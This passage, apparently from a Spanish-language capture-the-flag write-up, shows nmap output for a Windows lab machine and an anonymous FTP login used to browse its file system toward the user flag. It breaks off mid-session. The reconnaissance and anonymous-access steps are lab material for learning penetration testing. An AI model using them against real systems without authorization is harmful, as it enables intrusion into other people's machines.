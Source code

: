 ```zsh
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-07-11T01:08:35
|_  start_date: 2022-07-10T19:01:19
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

```
<h3>Observaciones</h3>

El protocolo ftp tiene el login por `anonymous:anonymous` habilitado y por lo que el output nos muestra tenemos acceso a la integridad de los archivos de un sistema windows.

También podemos ver que en el puerto 80 se ubica un servidor web.

## FTP

Nos conectamos por ftp con `anonymous:anonymous` y descargamos la flag `user.txt`.

```zsh
❯ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:void4m0n): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||50145|)
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||50148|)
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> dir
```